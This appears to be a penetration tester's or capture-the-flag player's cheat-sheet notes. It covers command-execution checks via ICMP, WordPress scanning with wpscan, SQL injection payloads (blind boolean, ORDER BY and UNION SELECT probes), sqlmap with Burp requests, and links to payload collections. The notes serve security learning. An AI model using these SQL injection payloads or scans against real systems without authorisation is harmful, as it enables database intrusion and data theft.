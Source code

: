 ## Test command execution
- start tcpdump listener for ICMP: `sudo tcpdump ip proto \\icmp -i tun0`
- run command on target: `ping [local tun0 ip] -c 1`

## Wordpress
- `wpscan -u http://10.10.10.14`
- search for usernames `--enumerate u`
- 'Easiest way to edit a PHP file as admin is via the Wordpress templating engine'

## Send Post Request
- Safe POST REQUEST in a local folder
- `python -m SimpleHTTPServer`
- Go to `localhost:8000` in browser

## SQLi
- most commonly used comments for SQLi payloads: `--+` and `/*`
- also `-- -` is used
- asking the database if it's first number is 's' (115 in ADCII)
- `?id=1' AND (ascii(substr((select database()),1,1))) = 115 --+`

### UNION SQLi attack
1. Finding the number of columns
2. Checking if the columns are suitable
3. Attack and het some interesting data

1. `' ORDER BY 1--`, `' ORDER BY 2--` until error
1. `' UNION SELECT NULL,NULL,NULL--` untill error
2. `' UNION SELECT 'a',NULL,NULL,NULL--`, `' UNION SELECT NULL,'a',NULL,NULL--`

#### SQLMap
- `sqlmap --url http://tbfc.net/login.php --tables --columns`
- useful cheat sheet: https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet
- payloads: https://github.com/payloadbox/sql-injection-payload-list
- other payloads: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

#### SQLMap usage
- copy login request from Burp
- paste in vim
- remove spaces
- `sqlmap -r login.req`

#### SQLMap & BurpSuite
- send the login request to repeater
- save request: right mouse > save item
- `sqlmap -r filename`

## XSS
- Cross Site Scripting
- http://www.xss-payloads.com/

